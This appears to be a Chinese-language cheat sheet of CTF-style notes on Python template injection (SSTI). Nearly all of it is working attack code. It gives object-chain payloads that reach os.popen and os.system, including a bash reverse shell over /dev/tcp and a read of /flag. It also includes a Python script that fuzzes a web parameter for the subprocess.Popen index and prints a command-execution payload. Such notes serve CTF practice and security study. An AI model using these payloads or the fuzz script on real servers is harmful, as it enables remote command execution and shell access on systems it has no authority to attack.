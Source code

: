 #### 常用的目标函数

```
file
subprocess.Popen
os.popen
exec
eval

```

#### 常见的中间对象

```
catch_warnings.__init__.func_globals.linecache.os.popen('bash -i &gt;&amp; /dev/tcp/127.0.0.1/233 0&gt;&amp;1')
lipsum.__globals__.__builtins__.open("/flag").read()
linecache.os.system('ls')

```

#### fuzz可利用类脚本

> 



```
import requests

url = ""

index = 0
for i in range(100, 1000):
    #print i
    payload = "{{''.__class__.__mro__[-1].__subclasses__()[%d]}}" % (i)
    params = {
        "search": payload
    }
    #print(params)
    req = requests.get(url,params=params)
    #print(req.text)
    if "subprocess.Popen" in req.text:
        index = i
        break


print("index of subprocess.Popen:" + str(index))
print("payload:{{''.__class__.__mro__[2].__subclasses__()[%d]('ls',shell=True,stdout=-1).communicate()[0].strip()}}" % i)

```

#### 服务端fuzz

